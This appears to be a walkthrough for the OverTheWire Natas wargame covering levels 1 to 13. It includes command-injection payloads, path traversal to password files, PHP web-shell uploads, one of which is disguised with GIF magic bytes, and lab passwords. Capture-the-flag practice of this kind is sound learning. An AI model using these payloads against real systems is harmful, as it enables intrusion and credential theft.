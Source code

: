 # Level 1
Solution:
after you open link, open inspector check html code there you can find password

# Level 2
So solution in this case is a bit hard to explain but basicly 
You should find an image tag like `<img src="file/pixel.png>` now you see that comes from database with this link `file/pixel.png` 
it means that you should you it as vulnerabilities to get key this is how:
`http://natas2.natas.labs.overthewire.org/files/`
there you find password for the next level

# Level 3
So get key from this problem we sould search for (google robots)[https://developers.google.com/search/docs/crawling-indexing/robots/create-robots-txt].
Bassicaly its `robots.txt` file that locks or allows access for all or a specific path to your domain
`http://natas3.natas.labs.overthewire.org/robots.txt` ---> here you get a hidden path `/s3cr3t/` and go to it

`http://natas3.natas.labs.overthewire.org/s3cr3t`--> key should be here

# Level 4
```
curl \                                                                                                                                                                               
  -H "Authorization: Basic $(echo -n 'natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ' | base64)" \
  -H "Referer: http://natas5.natas.labs.overthewire.org/" 
  http://natas4.natas.labs.overthewire.org/     

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK #your pass #key to next level
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
# Level 5
```Visiting the website returns the following text: “Access disallowed. You are not logged in”. The website should determine that we are logged in through a cookie. So, by opening the developer tools and going to the ‘Storage’ tab, we can see the ‘Cookies’ section. Here we find a cookie named ’loggedin’ with the value=0. Let’s try changing the value to 1 (by double-clicking on it) and refreshing the page.```

# Level 6 
if you take a look into source code that handles `input` you find something like this 
`include "includes/secret.inc"include "includes/secret.inc"` it means that it inludes another php file to get key from it,
and now we should do it manually `http://natas6.natas.labs.overthewire.org/index-source.html/include/secret.inc` its just a white/black screen 
check inspector and you find key

# Level 7 

Level 7 is bassically same as Level 6
  * take a look into source code
  * you will find something like this ` hint: password for webuser natas8 is in /etc/natas_webpass/natas8`
  * and go this link via page `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

# Level 8 

Level 8 is same as level 6 but pin-code placed in the script you should decode it
```
 echo 3d3d516343746d4d6d6c315669563362 | xxd -r -p

==QcCtmMml1ViV3b #decode hash to bin

echo "==QcCtmMml1ViV3b" | rev #reverse

b3ViV1lmMmtCcQ

echo b3ViV1lmMmtCcQ== | base64 -d

oubWYf2kBq  #key   
```
# Level 9 

so solve this case we should use `comanline injection`
as you could see in source code that input value directly goes through db without any hiccups
`; cat /etc/natas_webpass/natas10 #`--> Key to next level

# Level 10 
Solution in this problem is use another method of injection
`.* cat /etc/natas_webpass/natas11`
 # Level 11
  ----
 # Level 12
 
 In this level you should create a php file on your pc and write own script to get pass
 `<?php echo shell_exec("ls");?>` but dont send it yet you need change in inspector type from jpg to php
 and than upload file it should execute. 
 So ones it worked you should change you script to `<?php echo shell_exec("cat /etc/natas_webpass/natas13");?>` 
 # Level13
 To solve this level we should create the same script in php.

 But if you look into source code, you will see some thing like this
  `else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) echo "File is not an image";`
so this line checks our image type while uploading, and if we just upload our php file we can get error

exif_imagetype() - This PHP function reads the first few bytes of a file, sometimes known as “magic headers” to determine the file type. It won’t be fooled by just changing the file extension. If our file does not begin with the header bytes that indicate it actually is an image file, it will be rejected.

no worries we can buypass it using [magic headers](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=learnhacking.io)

lets pretend to be GIF
```GIF87a<?php echo shell_exec("ls");?>```
And now repeat all that stuff we done in level 12
and you will get KEY
